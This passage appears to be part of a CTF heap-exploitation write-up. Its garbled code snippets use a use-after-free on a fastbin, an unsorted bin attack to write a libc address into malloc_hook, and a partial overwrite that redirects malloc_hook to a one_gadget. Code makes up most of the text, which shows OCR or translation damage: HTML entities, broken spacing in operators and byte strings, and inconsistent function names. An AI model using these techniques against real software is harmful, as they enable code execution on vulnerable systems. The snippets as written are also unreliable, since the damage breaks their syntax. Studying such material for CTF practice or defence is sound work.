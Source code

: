 

Then `free` drop `E`, enter `fastbin`, use `uaf` to set `E-&gt;fd = 0`, fix `fastbin`


```

free(15)

edit(15,p64(0x00))

Info(&quot;Generate 0x71 fastbin again, modify fd =0, fix fastbin&quot;)
```



Then an unsorted bin attack, making the value of malloc_hook main_arena+88


 



```

create(0xc8,1)

create(0xc8,1)

create(0x18,2)

create(0xc8,3)

create(0xc8,4)

free(1)

po = &quot;B&quot; * 8
po + = &quot;\ x00 \ x1b&quot;
edit (1, po)
create(0xc8,1)

Info(&quot;unsorted bin makes malloc_hook have the address of libc&quot;)
```



Make the `malloc_hook` address of `one_gadget` by modifying the lower three bytes of `malloc_hook`


 



```

over = "R"*0x13   # padding for malloc_hook

over + = &quot;\ xa4 \ xd2 \ xaf&quot;
edit(0,over)



info("malloc_hook to one_gadget")

```
